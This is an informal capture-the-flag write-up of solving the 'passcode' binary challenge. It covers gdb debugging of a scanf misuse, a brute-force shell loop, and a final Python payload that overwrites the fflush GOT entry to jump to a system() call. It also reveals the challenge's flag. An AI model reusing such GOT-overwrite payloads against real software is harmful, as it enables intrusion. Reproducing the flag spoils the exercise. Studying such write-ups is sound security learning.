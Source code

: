 
- OK! So I compiled with symbols - I notices that the program is using scanf, but instead of &int, it used int! That means that the data I will use will change the POINTER and not the VALUE.
- OK it's payload time:
`printf "%b" '\x42\x42\x42\x42\x0a\x0a\x42\x42\x42\x42\x0a' > data.bin`
- Breakpoint time: 'b passcode.c:8'
- Let's read the pointer of passcode1: 'p/x &passcode1'

- There is a problem with inputing there, but I definetly just need to input addresses instead of values that will point to the values needed.

- Using 'p/d $rdx' after the code crash - I can see my data!
11111111111111

- Looking in the wild:
(gdb) p/d &passcode1
$4 = 140737488347036
- Let's try using this value and see if the code isn't crashing
- Still crashing for some reason :(
- OK I get it now, this is the line:
mov    DWORD PTR [rax],edx

- edx holds my data, rax holds the VALUE of passcode1 - which is not a pointer, and an invalid place in memory

- Placing a breakpoint on:
b *__vfscanf_internal+17607
this is the line I just saw inside of scanf - "mov    DWORD PTR [rax],edx"

- Placing 'a' instead of a number - skips the first scanf somehow, and don't allow me to input the second time and fails the check..
- StackOverFlow for the help - ""%d" expects numeric input like (white-spaces)(sign)[digits]. If the user does not type that, nothing is read and text remains in stdin for the next input function"
- I also read that 'fflush(stdin);' have undefined behavior on some platforms - maybe it's a thing too.

- AHAH! Look at this StackOverFlow comment:

char buf[10] = {0};
scanf("%10s", buf);

is unsafe. You have to take into account the string null terminator.

- It's simillar to what we have. Maybe I can do something with it.
- I am not sure what I can do with it yet, but techincly if I use 100 characters I can make the null terminator something else, which will make the string not a string? I am not sure what will happend then yet, I need to look into the memory for it. BUT it's late :( SO let's go to sleep.

- HAHA! I was trying to make things work - but then I got it!
I was h"hing my symbold code! Which is probably defending me from such vlunrabilites. I gdb'd the original binary, and managed to overwrite the "default" values of passcode1 and passcode2!

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa


- NICE! I managed to pass the first check with the following payload!
- `printf "%b" '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x28\x05\x00' > payload.bin`

- Adding bytes are not allowing me to overright the second value :(

- I was thinking about BF the second one:
while [ 1 -le 2 ]
do
	cat payload.bin | ~/passcode
done 

- I made 700,000 tries - didn't make it yet. I think there is maybe a better way - because the int size (aka number of options) is 4,294,967,296. I am also not sure it's possibol for the "junk value" to just be the one I need. 
- I will just say that the source code has a comment that says the following:
"ha! mommy told me that 32bit is vulnerable to bruteforcing :)"
So.. maybe?

- Does not seem like it works, sadly. atleast not for now. I can try running it all night, but let's try some more exploits before that.

- The hex value I need to reach is 0xcc07c9 - but I see in the stack that the word ends with 00 - which means I won't be able to get that value randomly :( (0xcc07c9 != 0xcc07c900). I need some time on a diffrent pwn.

- Some time has passed, I actually looked up a writeup to see if a BF is the option here and I was just unlucky. I sadly saw something I SHOULD NOT see. That there is a way to overwrite fflush. I didn't see how - so let's do it myself. I still think that we can use BF by the way.

- OK so I have seen the writeup. I was really intriged by how can I overwrite the GOT without messing up with the binary.

- The solution was really cool, I definetly would rather make it myself, but I already did that :(

- The idea is that: scanf takes input from the user and places it in memory - inside of an address passed in it's args. 

- Here we have control over both. We have control of the address to write into (as I did a long time ago, in order to change passcode1 to 338150) and, the thing that I missed and the writeup did not - I CAN ALSO CONTROL THE INPUT! because, every data I will put in the payload after that, will not go into memeory as part of "name", BUT will go into stdin - as he input for passcode1!

- SO I acctually need to find the address inside of the GOT for fflush, and then find the address I want to jmp into instead, the one that reads the flag.

- Let's find them (myself, without the writeup)

- In order to find the fflush pointer, I disassembled my code. I saw the following line:
`call   0x8048430 <fflush@plt>`

- Using x/i I can see the instruction is:
`0x8048430 <fflush@plt>:	jmp    DWORD PTR ds:0x804a004`

- So 0x804a004 is the PLT address 

- Now let's look for the flag line - looking into the disassemble again:
```
0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
0x080485ea <+134>:	call   0x8048460 <system@plt>
```

- I need to use the line that changes esp before the function call: 0x080485e3

- (saw this on the writeup) I need to pass it as a number, so let's convert 0x080485e3 into decimal: 
`p/d 0x080485e3`

- Another cool thing I learned, is that python is better then printf in creating payloads!

`python -c "print '\x01'*96 + '\x04\xa0\x04\x08' + '134514147'" > payload2.bin`

- # Anddd flag: "Sorry mom.. I got confused about scanf usage :("
- # pwned.

- P.S.
I am sad that I had to look up a hint, a pretty big one too.. Shouldn't do it next time.